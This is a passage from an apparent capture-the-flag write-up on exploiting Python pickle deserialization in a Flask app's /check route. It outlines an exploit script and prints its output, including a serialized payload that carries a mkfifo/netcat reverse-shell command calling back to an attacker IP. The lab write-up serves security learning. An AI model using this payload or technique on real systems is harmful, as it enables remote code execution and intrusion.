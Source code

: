 Interesting notes:
- The user submitted ‘char’ only has to *contain* one of the character names from the whitelist. It doesn’t have to *be* one of the names.
- The user has no control over the name of the file but can know the name of the file.
- Nothing is written to the file outside the two user-provided strings concatenated.
- There’s a comment reference to /check and pickle.

#### /check

Looking down the source, there’s a path for /check:

```

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

```

`cPickle.loads` will run the object’s `__reduce__` method when it is unpickled. So an attacker can create a class with a `__reduce__` function that executes their desired commands, pickle an instance of that class, and pass that string to canape.

## www-data Shell

### Outline

Scripted up getting a shell:
- Creates Exploit class which takes a cmd and sets up the `__reduce__` function.
- Command also includes the string “moe” so that it will pass the whitelist.
- Script takes an IP and port to get callback on.
- Default command is using pipes and nc to get a shell on given port/ip.
- Creates an instance of the Exploit class.
- Passes instance to cPickle.dumps to get the serialized string.
- Breaks that string so that all but the last character go into char, and the last char goes into quote.
- Calculates the id that will be used on the server.
- Posts to /submit the char and quote.
- Posts to /check the id.
- Profit!

  ```

  root@kali# ./get_canape_shell.py 10.10.15.48 4444
  [*] Filename will be: d95b296a74924cca43c2e27fa2fadc6f
  [*] Exploit:
  cposix
  system
  p1
  (S'echo moe && rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc 10.10.15.48 4444 > /tmp/0xdf'
  tRp2
  .
  [+] Sending exploit...
  [+] Exploit successfully submitted
  [+] Triggering exploit with /check, id = d95b296a74924cca43c2e27fa2fadc6f

  ```
